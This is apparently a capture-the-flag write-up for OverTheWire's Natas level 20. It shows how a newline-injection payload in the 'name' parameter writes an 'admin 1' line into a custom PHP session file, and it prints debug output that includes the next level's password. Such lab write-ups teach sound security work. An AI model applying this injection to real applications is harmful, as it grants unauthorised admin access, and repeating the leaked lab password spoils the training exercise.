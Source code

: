 ```php

?>

```

When we change name to `hoang` and add parameter `?debug=1` into url, the response look like that:

```
DEBUG: MYREAD 43gs6u90l9seoufajpsn97ag44
DEBUG: Reading from /var/lib/php5/sessions//mysess_43gs6u90l9seoufajpsn97ag44
DEBUG: Read [name hoang]
DEBUG: Read []
You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.

DEBUG: MYWRITE 43gs6u90l9seoufajpsn97ag44 name|s:5:"hoang";
DEBUG: Saving in /var/lib/php5/sessions//mysess_43gs6u90l9seoufajpsn97ag44
DEBUG: name => hoang
```

If we want to login as an admin, we need to set `$_SESSION["admin"]=1` in `print_credentials()` function.

Following `mywrite()` function, this function write data in `$_SESSION` into session_file, each key value pairs on one line:

```php
foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
```

Following `myread()` function, this function read data from session_file, and set key value pairs to `$_SESSION`:

```php
foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
```

The content of session_file of admin look like that:

```
name hoang
admin 1
```

We will inject payload to change name and write `admin 1` line into session_file. That is `CRLF injection` with the payload `hoang%0Aadmin%201`

Try access url: `http://natas20.natas.labs.overthewire.org/?name=hoang%0Aadmin%201&debug=1`

Refresh browser to reload `myread()` function, you can see password:

```
DEBUG: MYREAD 43gs6u90l9seoufajpsn97ag44
DEBUG: Reading from /var/lib/php5/sessions//mysess_43gs6u90l9seoufajpsn97ag44
DEBUG: Read [name hoang]
DEBUG: Read [admin 1]
DEBUG: Read []
DEBUG: Name set to hoang admin 1
You are an admin. The credentials for the next level are:

Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ

DEBUG: MYWRITE 43gs6u90l9seoufajpsn97ag44 name|s:13:"hoang admin 1";admin|s:1:"1";
DEBUG: Saving in /var/lib/php5/sessions//mysess_43gs6u90l9seoufajpsn97ag44
DEBUG: admin => 1
```